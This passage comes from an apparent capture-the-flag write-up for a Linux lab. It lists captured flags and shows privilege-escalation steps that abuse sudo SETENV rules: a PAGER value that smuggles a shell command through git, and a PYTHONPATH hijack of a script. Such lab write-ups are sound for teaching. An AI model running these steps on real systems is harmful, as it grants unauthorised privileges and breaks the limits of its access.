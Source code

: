 {% hint style="danger" %}
`silvio{657b4d058c03ab9988875bc937f9c2ef}`
{% endhint %}

#### What is reza's flag?

```bash
sudo -l
# User silvio may run the following commands on linuxagency:
#     (reza) SETENV: NOPASSWD: /usr/bin/git
sudo -u reza PAGER='sh -c "exec bash 0<&1"' git -p help
cd; cat flag.txt
```

{% hint style="success" %}
`reza{2f1901644eda75306f3142d837b80d3e}`
{% endhint %}

#### What is jordan's flag?

```bash
sudo -l 
# User reza may run the following commands on linuxagency:
#     (jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
touch /tmp/shop.py; sudo -u jordan PYTHONPATH=/tmp /opt/scripts/Gun-Shop.py
```

{% hint style="danger" %}

{% endhint %}















